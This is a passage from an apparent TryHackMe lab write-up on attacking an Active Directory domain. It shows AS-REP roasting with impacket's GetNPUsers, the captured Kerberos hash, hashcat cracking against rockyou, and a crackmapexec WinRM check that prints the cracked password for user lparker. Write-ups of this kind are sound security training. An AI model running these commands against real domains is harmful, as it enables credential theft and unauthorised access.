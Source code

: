 
Due to the difference on the response for invalid and valid users, we are able to enumerate valid usernames on the domain.


## Checking if our user has pre auth disabled
- While requesting the TGT(ticket granting ticket), on the first step the requesting party(user) encrypts the current timestamp with its own NTLM hash and sends it to the KDC(key distribution centre) which is the Domain Controller. Now if the KDC successfully decrypts the timestamp with the requesting user's NTLM hash, KDC will know the requesting user is a valid one. 
- This checks can be disabled(which is not a default case). In such case the KDC does not verify if the user asking for the TGT is a valid one and it sends back the TGT to the requester.
- This TGT contains some portion of data which is encrypted with the requesting user's NTLM hash which means we can take the hash offline and try to crack it.

```console
reddevil@ubuntu:~/Documents/tryhackme/fusioncorp$ /usr/share/doc/python3-impacket/examples/GetNPUsers.py fusion.corp/ -no-pass -usersfile username -request
/home/reddevil/.local/lib/python2.7/site-packages/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  from cryptography import x509
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

$krb5asrep$23$lparker@FUSION.CORP:bead83e810d0b3a619cc4483caefe8db$b4ee0a8d4cf482bb4ff9e3144599af8dd5540d0c2b56cf59d41db38e9df60cb7e635aca622951801f7c30eae1685b675470e3a784de3024958b5900c5f4497e535eeb55ce0ce06bb9ffb82b6ca7a8765730d2fcfad73604709006058061df45aa21cd7011c9e13be32db7f30d7461f93b83a1634490eff692050d8692427498e4870f8db278abba0ef260b84ef1149a9e69e0379492f717d7081d68ae843d7a34528e7070b3e7ef70cee11dc882cddfe86c31d9634e6f946bd21e146e3094d31ec487cd2840c44c2f9d769e9f820d9183d2d11c2d4c2de6f6eedc2317f95072029b6d05fc6babd2b2742
```
User lparker has pre authentication disabled. And we get a hash back. Let us try and crack the hash.

## Cracking the hash with hashcat
```console
reddevil@ubuntu:~/Documents/tryhackme/fusioncorp$ hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt
```
![image](/assets/images/thm/fusioncorp/Pasted image 20210616144442.png)
Now we have a user with a valid credential.

## Checking if we can get   a shell using winrm
```console
reddevil@ubuntu:~/Documents/tryhackme/fusioncorp$ cme winrm fusion.corp -u username -p pass 
WINRM       10.10.216.68    5985   FUSION-DC        [*] Windows 10.0 Build 17763 (name:FUSION-DC) (domain:fusion.corp)
WINRM       10.10.216.68    5985   FUSION-DC        [*] http://10.10.216.68:5985/wsman
WINRM       10.10.216.68    5985   FUSION-DC        [+] fusion.corp\lparker:!!abbylvzsvs2k6! (Pwn3d!)
```
It says pwned means we can get a shell as user **lparker** using evil-winrm.
